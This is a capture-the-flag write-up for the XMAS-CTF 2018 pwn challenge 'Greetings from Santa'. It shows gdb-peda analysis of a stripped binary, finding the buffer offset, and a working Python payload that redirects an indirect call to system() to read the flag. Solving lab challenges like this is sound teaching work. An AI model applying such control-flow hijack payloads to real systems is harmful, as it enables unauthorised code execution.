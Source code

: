 # __XMAS-CTF 2018__ 
## _Greetings from Santa_

## Information
**Category:** | **Writeup Author**
--- | ---
Pwn | Huascar Tejeda <<htejeda@f2tc.com>>

**Description:** 

> [chall](chall) 
>
> Author: littlewho

**Flag:**

> X-MAS{6r3371n65_fr0m_5y573m_700}

## Solution

This is an interesting challenge. Here's what I learned from the initial analysis:

![](/images/XMAS-CTF-2018/GreetingsFromSanta/01.png)

- What is this `call 0x8048760` after printf("Greetings from Santa! Wanna talk? ")?

```
gdb-peda$ pdisas 0x8048760
Dump of assembler code from 0x8048760 to 0x8048780::	Dump of assembler code from 0x8048760 to 0x8048780:
   0x08048760:	push   ebp
   0x08048761:	mov    ebp,esp
   0x08048763:	sub    esp,0x10
   0x08048766:	mov    eax,0x8048898            ; humm...
   0x0804876b:	mov    DWORD PTR [ebp-0x4],eax
   0x0804876e:	nop
   0x0804876f:	leave  
   0x08048770:	ret    
   0x08048771:	nop
   0x08048772:	push   ebp                       ; o_O - No references to here
   0x08048773:	mov    ebp,esp
   0x08048775:	sub    esp,0x8
   0x08048778:	sub    esp,0xc
   0x0804877b:	push   DWORD PTR [ebp+0xc]
   0x0804877e:	call   0x8048500 <system@plt>

```

- 0x8048898 looks like a string:

```
gdb-peda$ x/10x 0x8048898
0x8048898:	"r\207\004\b؞\004\b\244\210\004\b7Greeter"

gdb-peda$ x/20x 0x8048898
0x8048898:	0x72	0x87	0x04	0x08	0xd8	0x9e	0x04	0x08
0x80488a0:	0xa4	0x88	0x04	0x08	0x37	0x47	0x72	0x65
0x80488a8:	0x65	0x74	0x65	0x72

0x72 0x87 0x04 0x08 = 0x08048772 :-O
```

- In order to reach the second function 0x8048703 first char must be equal to 0x804886b="y"

![](/images/XMAS-CTF-2018/GreetingsFromSanta/02.png)

- Notice the `call eax` after `fgets(buf, 100, stdin); buf[strlen(buf) - 1] = 0`

#### Properties of the executable:
```
[f2tc@htejeda GreetingsFromSanta]$ checksec chall
[*] '/home/f2tc/xmas-ctf/pwn/GreetingsFromSanta/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

[f2tc@htejeda GreetingsFromSanta]$ objdump --syms chall 

chall:     file format elf32-i386

SYMBOL TABLE:
no symbols
```

#### Let's do some tests with everything we've learned so far

- I'll use pattern_create to simplify searching for our offset. _Remember that 'y' must be the first character._

```
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

gdb-peda$ r
Starting program: /home/f2tc/xmas-ctf/pwn/GreetingsFromSanta/./chall 
Greetings from Santa! Wanna talk? yAAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

[----------------------------------registers-----------------------------------]
EAX: 0x64414148 ('HAAd')
EBX: 0xf7e7d000 --> 0x1c6da8 
ECX: 0x2ccc 
EDX: 0x1 
ESI: 0x0 
EDI: 0x0 
EBP: 0xffffd3e8 --> 0xffffd458 ("eAA4AAJAAfAA5AAKAAgAA6AAL\n")
ESP: 0xffffd370 --> 0xf7e7dc40 --> 0xfbad208b 
EIP: 0x804874c (mov    eax,DWORD PTR [eax])
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048742:	mov    BYTE PTR [ebp+eax*1-0x6c],0x0
   0x8048747:	mov    eax,DWORD PTR [ebp+0x8]
   0x804874a:	mov    eax,DWORD PTR [eax]
=> 0x804874c:	mov    eax,DWORD PTR [eax]
   0x804874e:	sub    esp,0x8
   0x8048751:	lea    edx,[ebp-0x6c]
   0x8048754:	push   edx
   0x8048755:	push   DWORD PTR [ebp+0x8]
[------------------------------------stack-------------------------------------]
0000| 0xffffd370 --> 0xf7e7dc40 --> 0xfbad208b 
0004| 0xffffd374 --> 0xffffd40c ("yAAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\n")
0008| 0xffffd378 --> 0x0 
0012| 0xffffd37c ("f2tc")
0016| 0xffffd380 --> 0xf7e70000 --> 0xb44040e 
0020| 0xffffd384 --> 0xffffd40c ("yAAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\n")
0024| 0xffffd388 --> 0x1ff 
0028| 0xffffd38c --> 0xa ('\n')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0804874c in ?? ()
```

Sice in the second function there is a `call eax`, I will focus on controlling EAX.

```
EAX: 0x64414148 ('HAAd')

gdb-peda$ pattern_offset 0x64414148
1681998152 found at offset: 63
```

This is a stripped binary, so let's disassemble the text segment and set a breakpoint before printf("Greetings from Santa! Wanna talk? ")
```
gdb-peda$ info file
Symbols from "/home/f2tc/xmas-ctf/pwn/GreetingsFromSanta/chall".
Local exec file:
`/home/f2tc/xmas-ctf/pwn/GreetingsFromSanta/chall', file type elf32-i386.
Entry point: 0x8048520
0x08048154 - 0x08048167 is .interp
0x08048168 - 0x08048188 is .note.ABI-tag
0x08048188 - 0x080481ac is .note.gnu.build-id
0x080481ac - 0x080481e0 is .gnu.hash
0x080481e0 - 0x080482c0 is .dynsym
0x080482c0 - 0x0804839a is .dynstr
0x0804839a - 0x080483b6 is .gnu.version
0x080483b8 - 0x080483f8 is .gnu.version_r
0x080483f8 - 0x08048420 is .rel.dyn
0x08048420 - 0x08048460 is .rel.plt
0x08048460 - 0x08048483 is .init
0x08048490 - 0x08048520 is .plt
0x08048520 - 0x08048811 is .text
0x08048814 - 0x08048828 is .fini
0x08048828 - 0x080488ca is .rodata
0x080488cc - 0x08048920 is .eh_frame_hdr
0x08048920 - 0x08048a80 is .eh_frame
0x08049ec8 - 0x08049ecc is .init_array
0x08049ecc - 0x08049ed0 is .fini_array
0x08049ed0 - 0x08049efc is .data.rel.ro
0x08049efc - 0x08049ffc is .dynamic
0x08049ffc - 0x0804a000 is .got
0x0804a000 - 0x0804a02c is .got.plt
0x0804a02c - 0x0804a030 is .data
0x0804a040 - 0x0804a070 is .bss

gdb-peda$ pdisas 0x08048520,0x08048811
...
0x0804869b:	push   0x8048848
0x080486a0:	call   0x80484f0 <printf@plt>
...

gdb-peda$ b *0x0804869b
gdb-peda$ r < <(python -c 'print "y" + "A"*63 +"\n" + "f2tc"')
```

Pay careful attention to what happens after `printf("What is your name? ")` `fgets(buf, 100, stdin);` and `buf[strlen(buf) - 1] = 0`:

```
   0x804874a:	mov    eax,DWORD PTR [eax]
=> 0x804874c:	mov    eax,DWORD PTR [eax]
```

It copies (twice) to eax the contents of memory currently pointed to by eax. `call eax` right after this.

Remember the strange `call 0x8048760` we saw at the beginning? Inside of it it has a string 0x8048898 that will help us defeat this challenge.

- If we overwrite EAX with 0x8048898, after the two dereferences we will have:
`EAX: 0xffffd44c --> 0x8048898 --> 0x8048772 (push   ebp)`
- The string of our second question is pushed and system gets called:

```
=> 0x804877e:	call   0x8048500 <system@plt>
Guessed arguments:
arg[0]: 0xffffd37c ("f2tc")
arg[1]: 0xf7ff00f0 (<_dl_runtime_resolve+16>:	pop    edx)
```

## Exploit

**Buffer** | **EAX** | **CMD**
--- | --- | ---
"y" + "A" * 63 + "\n" | 0x8048898 | cat flag

```bash
[f2tc@htejeda GreetingsFromSanta]$ python -c 'import struct;print "y" + "A"*63 + struct.pack("<I", 0x8048898) + "\n" + "cat flag"' | ./chall
Greetings from Santa! Wanna talk? What is your name? X-MAS{6r3371n65_fr0m_5y573m_700}
```
